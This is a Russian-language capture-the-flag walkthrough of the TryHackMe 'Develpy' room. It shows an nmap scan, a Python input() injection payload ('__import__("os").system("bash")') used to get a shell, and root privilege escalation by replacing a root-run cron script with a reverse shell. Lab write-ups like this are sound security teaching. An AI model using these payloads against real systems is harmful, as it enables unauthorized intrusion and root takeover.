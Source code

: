 # Develpy

:white_check_mark:  [**nc**](#nc)

:white_check_mark: [**python**](#python)

:white_check_mark: [**crontab**](#crontab)
___

## Enumeration
Сканируем ip командой:
```
nmap -vv -p 1-10000 develpy.thm
```

```
PORT      STATE SERVICE          REASON                                                                  
22/tcp    open  ssh              syn-ack ttl 63                                                          
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63                                                          
                                                                                                         
Read data files from: /usr/bin/../share/nmap                                                         
```

<a name="nc"><h2>Getting shell</h2></a>

<a name="python"></a>

Взглянем на порт 10000. Попробуем подключиться по **nc**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/1.png)

Мы имеем дело с программой на python, и для ввода используется функция "**input()**". Можем попытаться запустить системную команду.

```
__import__("os").system("bash")
```
<a name="crontab"><h2>Privilege escalation</h2></a>

Посмотрим, что находится в crontab.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/2.png)

Файл root.sh запускается с правами root. Удаляем файл root.sh и записываем в новый обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/3.png)

Немного ждем и получаем оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/4.png)
